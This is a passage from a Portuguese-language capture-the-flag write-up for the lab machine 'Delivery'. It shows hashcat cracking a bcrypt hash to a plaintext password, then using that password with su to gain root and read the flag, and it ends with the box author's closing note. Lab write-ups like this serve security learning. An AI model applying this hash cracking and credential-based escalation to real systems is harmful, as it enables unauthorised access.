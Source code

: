 ```bash
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: basicpwd.txt
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

Utilizando a senha encontrada foi possível obter a última flag :smiley:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password:
root@Delivery:/opt/mattermost/config# cd /root/
root@Delivery:~# cat root.txt
<redacted>
root@Delivery:~#
```

Além do root flag, no arquivo `note.txt` ippsec deixa uma mensagem:

> I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here:
>
> \- `https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c`
>
> Keep on hacking! And please don't forget to subscribe to all the security streamers out there.
>
> \- ippsec

Espero que tenham gostado!

Até a próxima! :smile:

